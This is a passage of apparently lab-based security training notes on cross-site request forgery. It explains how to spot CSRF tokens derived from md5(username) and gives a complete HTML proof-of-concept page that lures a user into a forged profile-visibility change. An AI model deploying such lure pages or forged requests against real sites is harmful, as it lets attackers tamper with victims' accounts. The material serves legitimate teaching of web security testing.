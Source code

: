 
Let us try to make a victim's profile public.

First, submit the full payload to the Country field of user's profile and click "Save". Now, another user (with a "private" profile) who will to the shared Ela Stienen's profile (a name of an example user), will have his/her own profile changed to the visibility public.

<br>
<br>
<br>
<br>

# Exploiting weak CSRF tokens

Often, web applications do not employ very secure or robust token generation algorithms. An example is an application that generates CSRF tokens as follows (pseudocode): ```md5(username)```.

How can we tell if that is the case? We can register an account, look into the requests to identify a CSRF token, and then check if the MD5 hash of the username is equal to the CSRF token's value.

When assessing how robust a CSRF token generation mechanism is, make sure you spend a small amount of time trying to come up with the CSRF token generation mechanism. It can be as easy as md5(username), sha1(username), md5(current date + username) etc. Please note that you should not spend much time on this, but it is worth a shot.

Example of malicious page:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```
